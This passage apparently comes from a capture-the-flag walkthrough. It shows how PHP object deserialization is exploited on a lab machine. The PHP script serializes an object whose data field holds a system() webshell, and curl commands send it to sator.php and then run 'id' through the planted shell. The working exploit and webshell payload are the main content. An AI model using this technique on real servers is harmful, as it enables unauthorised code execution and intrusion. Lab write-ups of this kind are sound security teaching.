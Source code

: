 ### Create Serialized Object

To create a serialized PHP object, I’ll use PHP. This script will create the object with the right variables, and then print the serialized version:

```

<?php

class DatabaseExport {

    public $user_file = "0xdf.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$sploit = new DatabaseExport;
echo serialize($sploit);
?>

```

Running it prints the serialized object:

```

root@kali# php exp.php 
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"0xdf.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}

```

### Write Webshell

Now I’ll call `sator.php` passing this object. I can have `curl` url-encode GET parameters by passing in `-G` and `--data-urlencode`:

```

root@kali# curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"0xdf.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' --proxy 127.0.0.1:8080
[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>

```

I’ll notice that “Database updated” prints twice. That’s once for the `DatabaseExport` object stored in `$app`, and once for my object.

Checking for the webshell, it’s there:

```

root@kali# curl http://10.10.10.223/0xdf.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
